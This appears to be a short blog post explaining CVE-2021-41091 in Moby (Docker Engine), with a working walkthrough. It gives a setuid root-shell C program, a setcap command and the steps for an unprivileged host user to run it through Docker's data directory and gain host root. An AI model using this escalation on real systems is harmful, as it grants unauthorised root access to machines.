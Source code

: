 +++
title = "CVE-2021-41091"
date = "2023-05"
author = "Celeste"
authorTwitter = "" #do not include @
cover = ""
tags = ["CVE"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
+++

### When docker containers aren't as contained as you would think. 

CVE-2021-41091 is a vulnerability in moby. Moby is an open source project created by docker to aid in software containerisation. To exploit this vulnerability on a linux machine you need root inside of a docker container and an unpriviliged user on the host. Containers effected by this CVE would be accessible to the user outside of the container, with whatever functionality and permissions we gave it as root within the container. 

First within the container as root need to create a simple program to set our uid and gid to 0 (root) and run /bin/bash to enter a shell. 
betroot.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
	setuid(0); 
	setgid(0);
	system("/bin/bash");
	return 0;
}
```

This can be compiles with 
`gcc beroot.c -o beroot`

The ability for a process to change uids and gids in execution is disabled by default for good reason. By default docker containers give root CAP_SETFCAP allowing them to use setcap to give a file arbitrary permissions. We can use this to enable the binary to set it's own uid and gid like so: 
```
setcap cap_setgid,cap_setuid+eip beroot
```

You can verify this with `getcap beroot` which should return:
```
beroot = cap_setgid,cap_setuid+eip
```

Now all you need to do is locate your docker container containing the malicous beroot binary you just made and run it from you user on the host. Find the docker contianer with `findmnt`.
When your run this binary as your user on the host `./beroot` still has permission to set it's own uid and gid because as far as your computer is concerned that was enabled by root. It will also execute /bin/bash from the actual root file system, because your user is outside of the container. You are now root on the host. 

Docker stores the filesystems within containers as subdirectories within the data directory (usually `/var/lib/docker`). The problem here is that in the vulnerable versions any user could generally access these subdirectories, meaining if you could get root within the container you could use it to escalate privileges outside of the container. This effected Moby  (Docker Engine) v20.10.3 < 20.10.9, this was tested on Ubuntu 20.04. 

